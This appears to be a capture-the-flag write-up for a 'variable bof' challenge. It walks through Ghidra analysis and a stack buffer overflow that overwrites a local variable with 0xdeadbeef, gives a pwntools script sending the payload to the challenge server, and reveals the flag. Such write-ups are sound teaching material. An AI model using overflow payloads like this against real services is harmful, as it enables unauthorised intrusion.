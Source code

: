 # variable bof
![image](https://user-images.githubusercontent.com/34862954/164884883-ec4ea2ec-b96c-4770-bd14-fd0584328d66.png)

## Approach
Once again, disassembly the file with ghidra to view the pseudocode.\
![image](https://user-images.githubusercontent.com/34862954/164883191-83c106af-6abd-40a2-8539-db44fe824706.png)

Hmmmm.<br>
Here we have to make the value of `local_128` as `-0x21524111`\
Wait what's that? Negative hex?\
Well if you convert that hex into decimal and then convert it to hex by 2's compliment\
It's `0xdeadbeef` 🔥

Now how can make that `local_128` equal to `0xdeadbeef`?!<br>
We need to know that the stack grows downward<br>
![image](https://user-images.githubusercontent.com/34862954/164883524-0d5bc8f8-9613-4e18-bbd1-1fc260d963c9.png)

So we need the bufferflow attack like this. first 64 A's then deadbeef but in reverse order

![image](https://user-images.githubusercontent.com/34862954/164884035-e9b0b1c2-d862-4953-bfb2-b754e84df1b8.png)

Now our attack string is `'A'*64 + '\xEF\xBE\xAD\xDE'`

I used pwntools to make the attack as manually copying the string won't work as it may hv some non printable characters.

```python
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2420)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

#just dont forget this '\n' at the end 
payload = 'A'*64 +'\xEF\xBE\xAD\xDE' + '\n' 

conn.send(payload)
print(conn.recvline())

conn.close()
```

This will do the work. Yeah, pwntools are simply awesome!!
![image](https://user-images.githubusercontent.com/34862954/164884849-de65b57a-9fc5-42b7-9424-f620b2b9bf5a.png)
Yay u got the flag.

Flag: `wannahack{H0w_d1d_y0u_c5@ng3_M3_!!!!!}`


